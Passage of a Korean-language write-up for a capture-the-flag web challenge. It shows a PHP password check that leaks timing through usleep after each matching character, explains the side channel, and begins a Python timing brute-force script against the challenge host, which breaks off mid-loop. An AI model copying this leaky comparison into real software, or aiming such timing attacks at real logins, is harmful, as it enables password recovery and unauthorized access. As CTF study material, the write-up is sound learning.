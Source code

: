 php 포탈로 이동하면 위 [그림 2]와 같은 화면을 볼 수 있다.
보다시피 administration.php 파일에 접근할 수 있게 되어있으며, 해당 파일을 클릭하면 소스코드를 볼 수 있다.
administration.php의 소스코드를 중 일부는 아래와 같다.

```(.php)
<?php

 function authentication($your_password)
 {
   // TODO : change the password below choosing a more complex one (! dictionnary word)
   // but it *must* contain only lowercase alphabetical characters
   $password = "unetulipe";

   if(!is_string($your_password) || strlen($your_password) != strlen($password))
     return(0);

   $your_password = strtolower($your_password);

   for($i = 0; $i < strlen($password); $i++)
   {
     if($password[$i] != $your_password[$i])
       return(0);

     usleep(150000);
   }

   return(1);
 }

 $time1 = microtime(true);
 if(isset($_POST["your_password"]) && authentication($_POST["your_password"]))
   echo "<br />Congratulations, the flag to solve this challenge is the same than the one you used to log in";
 
 else
 {

?>
```

코드를 살펴보면, 입력값($your_password)과 $password 변수가 서로 일치하는지 확인하여 일치하면 해당 입력값이 플래그라고 알려주는 것을 알 수 있다.
그런데 잘 보면 $password의 값이 "unetulipe"로 하드코딩 되어 있는 것을 볼 수 있는데, 실제로 해당 값을 입력하더라도 당연히(?) 정답이라고 나오지 않는다.
그 위에 달려있는 주석을 볼 때 아마 패스워드는 이미 다른 문자열로 변경된 상태인 듯 하다.

그렇다면 여기서 주목해야 할 부분은 패스워드를 검증하는 반복문인데, 입력값에서 한 글자씩 가져와 패스워드와 비교하고 맞으면 usleep(150000)을 실행한다.
usleep()은 마이크로초를 인자로 받으므로, usleep(150000)은 150000마이크로초, 즉 150밀리초(ms) 동안 sleep하는 것을 의미한다.
즉 입력값의 첫번째 글자가 실제 패스워드의 첫번째 글자와 일치하면 150ms동안 sleep할 것이고, 두번째까지 맞으면 300ms동안 sleep하는 식으로 동작할 것이다.

이 부분을 이용하면 브루트포싱을 통해 실제 패스워드가 무엇인지 알아낼 수 있을 것으로 보인다.
그렇다면 이제 브루트포싱을 위한 코드를 작성해야 한다. 나는 아래와 같이 작성하였다.

```(.python)
import requests
import datetime
import string

flag = ''
init_time = datetime.timedelta(microseconds=500000)

url = "http://temporal.hax.w3challs.com/administration.php"

for i in range(9):
    count_time = datetime.timedelta(microseconds=150000 * (i + 1))
    for a in string.ascii_lowercase:
        password = flag
        
```